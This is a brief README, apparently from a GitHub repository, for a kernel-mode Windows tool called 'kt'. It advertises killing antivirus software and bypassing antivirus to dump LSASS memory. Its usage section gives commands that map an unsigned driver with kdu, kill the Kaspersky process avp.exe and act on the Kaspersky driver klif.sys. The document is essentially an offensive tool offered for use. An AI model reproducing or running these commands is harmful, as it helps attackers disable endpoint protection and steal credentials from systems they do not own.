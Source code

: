 # kt
Kernel file/process tool

# killav
![Screenshot](Capture1.gif)

# bypass av dump lsass
![Screenshot](Capture2.gif)

# basic
vs2019 + cpp + wdk

# usage(64-bit only)
kdu -map sys.sys  

kt -F -d c:\windows\notepad.exe  
kt -P -k avp.exe  
kt -O -m klif.sys
